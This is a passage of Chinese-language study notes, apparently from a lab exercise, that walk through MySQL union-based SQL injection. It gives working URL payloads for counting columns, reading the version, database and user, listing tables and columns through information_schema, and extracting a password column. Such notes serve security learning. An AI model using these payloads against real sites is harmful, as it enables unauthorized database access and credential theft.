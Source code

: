 2.  猜解列名数量（字段数） order by，猜到错误与正常 的正常值

    `xxx.com/?id=1 order by 4`

3.   报错猜解

     `?id = -1 union select 1,2,3,4`

     假设显示2，3

4.  信息收集

    数据库版本：version()	：ubuntu

    数据库名字：database()	：mozhe_dis

    数据库用户：user()	：root@localhost

    操作系统：@@version_compile_os	：linux

    `?id = -1 union select 1,version(),database(),4`

    `?id = -1 union select 1,user(),@@version_compile_os,4`

    

5.  查询指定数据库名mozhe_dis下的表名信息：

    `?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema = 'mozhe_dis'`

    上面只显示一个，如果想显示所有表名：group_concat()

    `?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = 'mozhe_dis'`

    

    假设查到表名：storm_mem

6.  查询指定表名storm_mem下的列信息：

     `?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.column where table_name = 'storm_mem'`

    假设查到passwd,id

7.  查询指定数据

    `?id=-1 union select 1,passwd,id,4 from storm_mem`

# day13



## SQL注入之MySQL注入





除上节的信息收集外：

MySQL注入：
